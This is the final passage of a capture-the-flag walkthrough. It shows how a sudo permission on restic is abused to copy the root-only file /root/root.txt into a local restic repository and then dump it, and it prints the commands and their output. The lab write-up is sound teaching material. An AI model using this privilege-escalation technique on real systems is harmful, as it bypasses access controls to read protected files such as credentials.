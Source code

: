 Now that our repository is set, let's send the root.txt file

```
www-data@bolt:/dev/shm/ sudo /usr/bin/restic backup -r rest:http://localhost:8000/ -p pass_file /root/root.txt
```

**We need to pass the -p argument because we're not in a full tty shell, so if the program asks for an input (stdin) we would just lose our shell. The pass_file contains the password we set when we created the repository**

Now that our flag is in our repository we just need to dump it

```
bolt@bolt:/dev/shm$ restic -r rest:http://localhost:8000/ snapshots
enter password for repository: 
password is correct
ID        Date                 Host        Tags        Directory
----------------------------------------------------------------------
e8ce5ed2  2020-04-04 04:53:01  bolt                    /root/root.txt
----------------------------------------------------------------------
1 snapshots
```

```
bolt@bolt:/dev/shm$ restic dump -r rest:http://localhost:8000/ e8ce5ed2 root.txt
enter password for repository: 
password is correct
ntrkzgnkota<redacted>
```

Hope you enjoyed it  :-)

by me
